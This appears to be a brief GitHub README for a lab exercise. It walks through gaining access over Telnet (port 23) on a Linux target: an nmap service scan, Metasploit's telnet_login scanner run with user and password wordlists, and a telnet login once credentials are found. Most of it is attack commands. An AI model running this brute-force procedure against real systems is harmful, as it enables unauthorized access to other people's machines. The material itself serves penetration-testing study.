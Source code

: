 # Port-23-telnet-Linux-telnet
1.nmap -sV (target)
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/dea1ef26-fa27-4457-b5ec-502aebd30d15)
2.msfconsole

3.msf 6 > search telnet

4.msf 6 > use auiliary/scanner/telnet/telnet_login

5.show options 

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/f26392b9-0330-4b89-b132-75e07ca75113)
6.msf 6 > set RHOST (target ip)

7.msf 6 > set user_file (path user.txt)

8.msf 6 > set pass_file (path password.txt)

9.msf 6 > set stop_on_success true

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/ebf68411-a4b7-4915-8029-b3334c4b66f9)
10. msf 6 > run
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/265bee3d-d499-4c4f-b132-d2b965dfe77a)
11.telnet <target>
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/9c38d3a8-1ef9-4560-a2d1-95fa6788b8e1)

Reference form : https://www.youtube.com/watch?v=lnl8qju0dLg&t=834s
